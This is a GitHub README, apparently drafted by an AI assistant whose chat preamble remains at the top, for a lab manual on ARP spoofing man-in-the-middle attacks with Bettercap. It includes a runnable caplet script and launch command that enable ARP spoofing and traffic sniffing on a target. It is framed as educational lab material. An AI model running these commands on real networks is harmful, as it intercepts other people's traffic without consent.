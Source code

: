 Absolutely! Here's a clean, professional `README.md` file tailored for your **ARP Spoofing Lab Manual** repository. It explains the purpose, contents, tools used, and instructions for readers — ideal for showcasing your work on GitHub.

---

```markdown
# 🔐 ARP Spoofing Lab Manual – Man-in-the-Middle Attack Using Bettercap

Welcome to my cybersecurity lab manual focused on **ARP spoofing** and **traffic interception** using **Bettercap**. This manual demonstrates how attackers can perform a **Man-in-the-Middle (MITM)** attack on a local network and how network traffic can be sniffed, intercepted, or manipulated.

> 📄 Download the full manual: [ARP_Spoofing_Manual.pdf](./ARP_Spoofing_Manual.pdf)

---

## 📚 What's Inside

This manual contains:

- ✅ Pre-attack setup (target IP, ARP table, MAC addresses)
- ✅ Launching Bettercap on Linux interface (e.g., eth0)
- ✅ Enabling probing and ARP spoofing modules
- ✅ Observing ARP table changes before and after the attack
- ✅ Automating the attack with custom caplet scripts
- ✅ Verifying successful spoofing and live packet interception

---

## 🛠️ Tools Used

- **Bettercap** – Powerful MITM attack and network monitoring tool  
- **Wireshark** *(optional)* – For verifying intercepted traffic  
- **Linux Terminal** – Running commands and managing network interfaces

---

## 📁 Folder Structure

```

📦 arp-spoofing-manual
┣ 📄 ARP\_Spoofing\_Manual.pdf         # Full lab documentation
┗ 📜 arp\_spoof.cap                   # Caplet script to automate the attack

````

---

## ▶️ Caplet Script Preview

```bash
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets <target_ip>
arp.spoof on
net.sniff on
````

To run:

```bash
bettercap -iface eth0 -caplet arp_spoof.cap
```

---

## ⚠️ Disclaimer

This project is intended **strictly for educational and ethical hacking purposes**.
Only use these techniques in your **own lab environment** or with **explicit permission**.

---

## 🤝 Connect With Me

I'm always open to feedback, suggestions, and collaborations in cybersecurity.

* 📧 \[Your Email Address]
* 🌐 [LinkedIn Profile](https://www.linkedin.com/in/umerzzz/)
* 🧑‍💻 [Other Projects](https://github.com/umerzzz)

---

## ⭐ If You Found This Helpful

Feel free to star ⭐ the repo and share it with others in the cybersecurity learning community!

\#CyberSecurity #ARPspoofing #Bettercap #MITM #EthicalHacking #LabManual #Networking #PenTesting
